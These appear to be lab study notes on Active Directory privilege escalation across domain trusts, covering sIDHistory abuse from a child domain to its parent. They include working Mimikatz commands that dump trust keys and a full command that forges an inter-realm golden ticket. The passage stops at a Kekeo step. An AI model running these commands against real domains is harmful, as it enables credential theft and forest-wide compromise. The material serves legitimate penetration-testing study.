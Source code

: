 
## Privesc - Across Trusts

- Across Domains - Implicit two way trust relationship.
- Across Forests - Trust relationship needs to be established.

#### Child to Parent

- sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user’s domain is changed, they get a new SID and the old SID is added to sIDHistory.

sIDHistory can be abused in two ways of escalating privileges within a forest:

- krbtgt hash of the child
- Trust tickets

Child To parent flow

![[Pasted image 20241206150206.png]]

Child to Parent:

![[Pasted image 20241206150227.png]]

##### Child to Parent using Trust Tickets

So, what is required to forge trust tickets is, obviously, the trust key. Look for [In] trust key from child to parent:

~~~
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
~~~

or

~~~
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
~~~

or

~~~
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
~~~

We can forge and inter-realm TGT:

~~~
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
~~~

![[Pasted image 20241206150501.png]]

**Abuse with Kekeo**

Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket:
